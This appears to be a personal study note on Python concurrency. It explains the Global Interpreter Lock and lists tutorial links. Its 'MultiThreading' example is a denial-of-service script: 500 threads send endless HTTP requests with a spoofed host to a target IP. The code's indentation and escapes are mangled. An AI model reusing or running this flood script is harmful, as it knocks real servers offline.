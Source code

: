 # Concurrency

Created: 2018-05-21 13:44:24 +0500

Modified: 2022-05-13 15:19:51 +0500

---

**Global Interpreter Lock (GIL)**

GIL is a mutex that protects access to Python objects, preventing multiple threads from executing Python bytecodes at once. This lock is necessary mainly because CPython's memory management is not thread-safe.



This essentially means that a process can run only one thread at a time. When a thread starts running, it acquires GIL and when it waits for I/O, it releases the GIL, so that other threads of that process can run.



Solution -
-   Run multiple Python instances



**References**

<https://wiki.python.org/moin/GlobalInterpreterLock>

<https://pybay.com/site_media/slides/raymond2017-keynote/index.html>

[Raymond Hettinger, Keynote on Concurrency, PyBay 2017](https://www.youtube.com/watch?v=9zinZmE3Ogk&index=2&list=WL&t=0s)

<https://realpython.com/python-concurrency/>

<https://www.toptal.com/python/beginners-guide-to-concurrency-and-parallelism-in-python>

<https://www.tutorialspoint.com/concurrency_in_python/index.htm>

[**Tutorial: Santiago Basulto - Python Concurrency: from beginner to pro**](https://www.youtube.com/watch?v=18B1pznaU1o)

[Back to Basics: Concurrency](https://youtu.be/5pYKAoD3Apk) - C++



**MultiThreading**

import threading

import socket



target = '10.0.0.138'

port = 80

fake_ip = '182.21.20.32'



def attack():

while True:

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((target, port))

s.sendto(("GET /" + target + " HTTP/1.1rn").encode('ascii'), (target, port))

s.sendto(("Host: " + fake_ip + " rnrn").encode('ascii'), (target, port))

s.close()



for i in range(500):

thread = threading.Thread(target=attack)

thread.start()



<https://bovage.hashnode.dev/what-exactly-is-multithreading>
